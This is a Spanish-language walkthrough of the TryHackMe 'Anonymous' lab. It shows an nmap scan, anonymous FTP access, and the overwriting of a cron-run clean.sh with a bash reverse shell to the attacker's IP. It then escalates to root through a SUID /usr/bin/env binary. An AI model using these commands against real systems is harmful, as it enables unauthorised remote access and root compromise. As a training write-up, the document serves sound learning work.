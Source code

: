 # Ejercicio Práctico – Explotación FTP login Anonymous + Escalada de Privilegios Binarios SUID

Maquinas que vamos a utilizar **Kali Linux y Anonymous**

[https://tryhackme.com/room/anonymous](https://tryhackme.com/room/anonymous)

```bash
ifconfig
```

![image.png](./imagenes/image%2048.png)

Mi IP: 10.21.166.149

```bash
ping -c 1 10.10.47.179 
```
 
![image.png](./imagenes/image%2049.png)

```bash
nmap -p- -sS -sV -sC --open -min-rate=2000 -n -vvv -Pn 10.10.47.179
```

![image.png](./imagenes/image%2050.png)

`21/tcp  open  ftp         syn-ack ttl 63 vsftpd 2.0.8 or later`

`22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)`

`139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)`

`445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)`

- Entramos en el FTP aprovechando que tiene habilitada la entrada **anonymous**
    
    ```bash
    ftp 10.10.47.179
    ```
    
    ![image.png](./imagenes/image%2051.png)
    
    `ls`
    
    ![image.png](./imagenes/image%2052.png)
    

`cd scripts`

`ls`

![image.png](./imagenes/image%2053.png)

- Mirándolo así da que pensar que el archivo [clean.sh](./imagenes/http://clean.sh) se ejecuta de forma automatizada. Nos descargamos el archivo a nuestra maquina para examinarlo y nos salimos del FTP.
    
    `get clean.sh`
    
    `exit`
    
    ![image.png](./imagenes/image%2054.png)
    

- Miramos el contenido de [clean.sh](./imagenes/http://clean.sh) mediante **cat** para entender lo que hace.
    
    ```bash
    cat clean.sh
    ```
    
    ![image.png](./imagenes/image%2055.png)
    
    La explicación rápida seria que este archivo se ejecuta cada cierto tiempo para hacer limpieza de Logs del sistema.
    
- Vamos a **crear un clean.sh malicioso** y lo subiremos a la maquina.
    - editamos clean.sh y eliminamos su contenido y lo vamos a sustituir por el de una reverse shell.
        
        ```bash
        nano [clean.sh](./imagenes/http://clean.sh) 
        ```
        
        `#!/bin/bash
        
        bash -i >& /dev/tcp/10.21.166.149/443 0>&1`
        
        ![image.png](./imagenes/image%2056.png)
        
- Volvemos a entrar en el FTP.
    
    ```bash
    ftp 10.10.47.179 
    ```
    
    ![image.png](./imagenes/image%2057.png)
    
    - Nos movemos a la carpeta scripts
        
        `cd scripts`
        
        `ls`
        
        ![image.png](./imagenes/image%2058.png)
        
    - Subimos el archivo modificado a la maquina victima. Y salimos del FTP
        
        `put clean.sh`
        
        ![image.png](./imagenes/image%2059.png)
        
        ![image.png](./imagenes/image%2060.png)
        
        Nos sustituye el archivo original por el nuestro.
        
        `exit`
        

- Nos ponemos a la escucha por el puerto 443 y veremos que después de un rato tendríamos la conexión.
    
    ```bash
    nc -nlvp 443
    ```
    
    ![image.png](./imagenes/image%2061.png)
    
    - Hacemos un tratamiento de la TTY
        
        `script /dev/null -c bash`
        
        `CTRL+Z`
        
        ![image.png](./imagenes/image%2062.png)
        
        ```bash
        stty raw -echo; fg
        ```
        
        `reset xterm`
        
        ![image.png](./imagenes/image%2063.png)
        
        `export TERM=xterm`
        
        `export SHELL=bash`
        
        ![image.png](./imagenes/image%2064.png)
        
    - Vamos a enumerar dentro de la maquina binarios vulnerables SUID.
        
        `find / -perm -4000 2>/dev/null`
        
        ![image.png](./imagenes/image%2065.png)
        
    - Usamos la pagina de [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/) para probar cual de ellos es vulnerable. En mi caso seria **/usr/bin/env**
        
        ![image.png](./imagenes/image%2066.png)
        
        - Probamos **env /bin/sh -p**
            
            `/usr/bin/env /bin/sh -p` 
            
            ![image.png](./imagenes/image%2067.png)
            
            `/usr/bin/env`: La ruta absoluta que nos aparece al buscar con find
            
            `/bin/sh -p`: código que hemos encontrado en [https://gtfobins.github.io/](./imagenes/https://gtfobins.github.io/).
            
        - Miramos quienes somos y veos que somos root.
            
            `whoami`
            
            ![image.png](./imagenes/image%2068.png)